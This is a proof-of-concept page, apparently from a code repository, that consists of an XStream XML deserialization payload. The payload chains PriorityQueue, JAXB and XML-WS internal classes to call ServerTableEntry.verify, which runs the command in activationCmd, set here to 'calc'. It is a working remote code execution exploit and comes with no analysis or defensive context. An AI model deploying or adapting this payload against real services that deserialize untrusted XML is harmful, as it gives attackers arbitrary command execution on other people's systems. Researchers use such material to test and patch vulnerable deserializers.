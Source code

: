 ## poc

```xml
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.corba.se.impl.activation.ServerTableEntry</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
                          <class>com.sun.corba.se.impl.activation.ServerTableEntry</class>
                          <name>verify</name>
                          <parameter-types/>
                        </getter>
                      </inheritedAttWildcard>
                    </bi>
                    <tagName/>
                    <context>
                      <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                        <outer-class reference='../..'/>
                      </marshallerPool>
                      <nameList>
                        <nsUriCannotBeDefaulted>
                          <boolean>true</boolean>
                        </nsUriCannotBeDefaulted>
                        <namespaceURIs>
                          <string>1</string>
                        </namespaceURIs>
                        <localNames>
                          <string>UTF-8</string>
                        </localNames>
                      </nameList>
                    </context>
                  </bridge>
                </bridge>
                <jaxbObject class='com.sun.corba.se.impl.activation.ServerTableEntry'>
                  <activationCmd>calc</activationCmd>
                </jaxbObject>
              </dataSource>
            </message>
            <satellites/>
            <invocationProperties/>
          </packet>
        </indexMap>
      </comparator>
    </default>
    <int>3</int>
    <string>javax.xml.ws.binding.attachments.inbound</string>
    <string>javax.xml.ws.binding.attachments.inbound</string>
  </java.util.PriorityQueue>
```